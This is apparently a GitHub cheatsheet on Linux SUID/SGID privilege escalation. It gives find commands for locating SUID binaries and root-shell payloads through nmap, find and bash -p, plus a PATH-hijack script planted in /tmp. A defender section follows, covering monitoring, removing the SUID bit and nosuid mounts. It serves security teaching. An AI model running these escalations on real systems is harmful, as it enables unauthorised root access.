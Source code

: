 ## 🗝️ Cheatsheet: SUID/SGID Privilege Escalation

SUID (**Set User ID**) and SGID (**Set Group ID**) are special Linux file permissions. When an executable with the SUID bit is run, it executes with the permissions of the **file owner**, not the user who ran it. If the owner is `root`, the process runs as `root`. This is a necessary feature for some system tasks (like `passwd` changing the password file), but it is extremely dangerous if misconfigured.

### ## What to Look For (Reconnaissance)

The first step is to find all SUID/SGID executables on the system. The `find` command is the perfect tool for this.

* **Find SUID Binaries:** (Permission bit `4000`)
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    # -perm -u=s: Find files with the SUID bit set.
    # -type f: Only look for files.
    # 2>/dev/null: Suppress "Permission denied" errors.
    ```

* **Find SGID Binaries:** (Permission bit `2000`)
    ```bash
    find / -perm -g=s -type f 2>/dev/null
    ```
* **What to Analyze:** Look for non-standard binaries in the list. Everyone has `passwd`, `ping`, and `su`. But if you see something like `nmap`, `find`, `vim`, or a custom script with the SUID bit set, you've likely found a vulnerability.

---

### ## Common Exploitable Scenarios & Payloads

Once you find an interesting SUID binary, the goal is to make it do something it wasn't intended to do, like spawn a shell or overwrite a critical file. **GTFOBins** is your best friend here.

#### **Scenario 1: Binaries with Shell Escapes or File Overwrites**
Many common utilities can be abused to get a shell or modify files when run as root.

* **Binary:** `nmap` (older versions)
    * **Exploitation:** If `nmap` is SUID, you can use its interactive mode to get a shell.
        ```bash
        nmap --interactive
        # At the nmap prompt, type: !sh
        ```
* **Binary:** `find`
    * **Exploitation:** `find` can execute commands, including spawning a shell.
        ```bash
        # Create a dummy file first
        touch shell
        find shell -exec /bin/sh -p \;
        # The -p flag is important to keep the effective UID (root)
        ```
* **Binary:** `bash`
    * **Exploitation:** If you find `bash` with the SUID bit, it's game over.
        ```bash
        bash -p
        # The -p flag tells bash not to drop its elevated privileges.
        ```
* **Other common targets:** `vim` (can edit any file, e.g., `/etc/sudoers`), `cp` (can overwrite any file), `mv` (can replace any file).

#### **Scenario 2: PATH Variable Abuse**
If an SUID binary calls another command without a full path, you can exploit it.

* **Vulnerable Code (in C):** `system("service apache2 restart");`
* **Exploitation:**
    1.  Create a malicious script named `service` in a writable directory like `/tmp`.
        ```bash
        echo '#!/bin/bash' > /tmp/service
        echo '/bin/bash -p' >> /tmp/service
        chmod +x /tmp/service
        ```
    2.  Prepend `/tmp` to your system's `$PATH`.
        ```bash
        export PATH=/tmp:$PATH
        ```
    3.  Run the SUID binary. It will now execute your `/tmp/service` script as `root`.

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **File Integrity Monitoring:** Use tools like **AIDE** or **Tripwire**. These tools create a baseline of your file system and can alert you if file permissions change, such as a new SUID bit being set on a file.
* **Auditing:** Periodically run the `find` commands from the reconnaissance section and compare the output to a list of known, legitimate SUID/SGID files on your system.
* **Process Auditing:** Monitor for strange process chains, for example a low-privilege user spawning a process (`find`, `nmap`) that is running as `root`.

#### **How to Prevent SUID Abuse**

* **Principle of Least Privilege:** Remove the SUID/SGID bit from any binary that does not absolutely need it.
    ```bash
    # Remove the SUID bit from a file
    sudo chmod u-s /path/to/vulnerable_binary
    ```
* **Use the `nosuid` Mount Option:** This is a powerful preventative control. Mount partitions where users can write files (like `/home`, `/tmp`, `/dev/shm`) with the `nosuid` option. This tells the kernel not to respect the SUID bit for any file on that partition.
    * **Example `/etc/fstab` entry:**
        ```
        # Add 'nosuid' to the options
        /dev/sda3   /home   ext4    defaults,nosuid  1 2
        ```
* **Write Secure Code:** When developing applications that require elevated privileges, never call system commands without using their full, absolute path (e.g., use `/usr/sbin/service` instead of just `service`).
